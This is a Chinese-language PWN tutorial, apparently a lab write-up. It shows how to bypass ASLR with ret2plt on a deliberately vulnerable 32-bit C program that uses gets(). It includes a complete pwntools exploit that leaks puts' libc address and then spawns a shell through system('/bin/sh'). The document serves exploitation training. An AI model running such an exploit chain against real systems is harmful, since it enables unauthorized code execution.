 ```yaml
---
title: 'ret2plt 绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


## 0x01 概述

这次没有可以直接利用的信息了，你必须使用前面讲到的 ret2plt 技术。在进一步了解之前，请先自己
尝试一下。

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  puts("Come get me");

  char buffer[20];
  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 分析

我们需要以某种手段泄漏 ASLR 基地址。在这题中，唯一可行的方法是 ret2plt。`gets()`
可以读取任意大小的数据，所以不用担心栈空间不足的问题。我们可以充分利用 `gets()`
构造 ret2plt 的 exploit 链。通过返回到 PLT 表，可以泄漏需要的地址信息。

因此，在栈空间充足的情况下，使用 ret2plt 是最合适的手段。

## 0x03 利用

基本信息：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

现在我们要构造一个可以泄漏 `puts` 真实地址的 payload。根据之前讲到的，调用函数的
PLT 条目等同于调用函数本身。传入 `puts@got` 作为参数，会打印出 `puts` 在 `libc` 中的
实际地址，因为 C 语言传递字符串参数传递的是指针。我们知道 `puts@got` 就是一个已知
地址，可以打印。这样就可以通过 `puts@plt` 间接获取 `puts@got` 中的内容。

```python
p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

调用 `main` 的目的是让程序可以重新运行。如果我们直接返回到一个随机的地址，会让
程序崩溃。再次调用 `main` 本质上是重启了程序，这样可以使程序在泄漏 `libc` 的基地址
后继续运行。然后我们就可以进行 ret2libc 攻击。

```python
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

这里需要注意 `puts` 会一直输出，直到遇到空字节，所以它不只是泄漏了 GOT 表中的地址。
但我们只关心第一个，也就是 GOT 表里面的前 4 个字节。使用 `u32` 转换为地址。之后，
忽略调用 `main` 时产生的其它内容。我们只取关键信息，过滤无用数据。

从这里开始，我们只需要计算出 `libc` 的基地址并执行基本的 ret2libc：

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做会更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

你知道该怎么做 :) 在 64-bit 上尝试同样的操作。如果需要，你可以使用 pwntools 的 ROP 功能；
或者，为了确保你理解调用约定，请大胆地同时执行这两个操作 :P

LINK

